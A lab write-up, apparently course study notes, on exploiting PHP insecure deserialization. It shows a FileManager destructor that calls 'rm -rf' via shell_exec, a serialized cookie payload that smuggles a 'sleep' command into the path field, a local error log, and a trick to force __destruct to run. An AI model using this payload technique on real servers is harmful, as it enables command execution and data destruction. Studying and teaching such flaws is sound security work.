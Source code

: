 So in this specific function in the File Manager, we have a possible command injection vulnerability.

```php
    public function __destruct() {
        shell_exec("rm -rf " . escapeshellarg($this->path) . "*");
    }
```

This happens because it takes a variable from the `FileManager` class, in this case, the `path`. When unserializing:

```php
    $session = unserialize($_COOKIE['session']);

```

The code does NOT validate which object is being deserialized, so instead of passing the serialized "Auth" object, one could pass the `FileManager` object:

```php
O:11:"Filemanager":1:{s:4:"path";s:25:"/tmp/auth; sleep 5; echo "}
```

Then, after encoding and sending it to the server, the following error occurs:

```php
[Thu Jul 25 16:18:27 2024] 127.0.0.1:42376 Accepted
[Thu Jul 25 16:18:27 2024] PHP Notice:  unserialize(): Error at offset 65 of 66 bytes in /home/kali/Desktop/eWPTX/serialization/insegura/index.php on line 6
[Thu Jul 25 16:18:27 2024] PHP Fatal error:  Uncaught Error: Call to a member function isAuth() on bool in /home/kali/Desktop/eWPTX/serialization/insegura/index.php:8
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/index.php on line 8
[Thu Jul 25 16:18:27 2024] 127.0.0.1:42376 [500]: GET / - Uncaught Error: Call to a member function isAuth() on bool in /home/kali/Desktop/eWPTX/serialization/insegura/index.php:8
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/index.php on line 8
```

It performs the deserialization and immediately calls the `isAuth()` function:

```php
    $session = unserialize($_COOKIE['session']);
    if($session->isAuth()) {
```

However, what matters is that since it calls a function from the `session`, it does NOT directly call the `FileManager` class because it only calls `__destruct` when PHP finishes interpreting the class. Therefore, you need a method where PHP forces the `__destruct` directly.

Consider the following code:

```php
<?php

class test {
    public function __destruct() {
        echo "test";
    }
}

$wtf = unserialize('a:2:{i:7;O:4:"test":0:{}i:7;i:7;}');
$wtf->test();

?>
```
